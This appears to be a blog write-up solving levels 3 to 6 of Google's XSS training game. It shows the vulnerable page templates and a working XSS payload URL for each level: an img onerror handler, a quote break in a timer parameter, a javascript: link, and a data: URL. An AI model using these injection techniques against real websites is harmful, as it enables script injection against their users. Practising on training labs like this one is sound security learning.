 ```yaml
---
title: Google_Game
author: ch3n9w
date: 2019-06-12 19:41:56
typora-root-url: ../
categories: CTF
---
```


# Google Xss game

<!--more-->

### Level 3

![image-20211114141306312](/images/Google-Game/image-20211114141306312.png)

This website provides some API (after the arch pointer).

solution:

```https://xss-game.appspot.com/level3/frame#<img src='foo' onerror=alert();>```

### level 4

![image-20211114141313076](/images/Google-Game/image-20211114141313076.png)



```javascript
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
</html>
```

solution:

```
https://xss-game.appspot.com/level4/frame?timer=');alert('
```



### level 5

![image-20211114141321457](/images/Google-Game/image-20211114141321457.png)



```html
<!--signup.html-->
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```

solution: 

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('xss')
```

and click the ``Next`` button.

### level 6

![image-20211114141329514](/images/Google-Game/image-20211114141329514.png)

This website allow user to execute alternative js script

solution:

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```


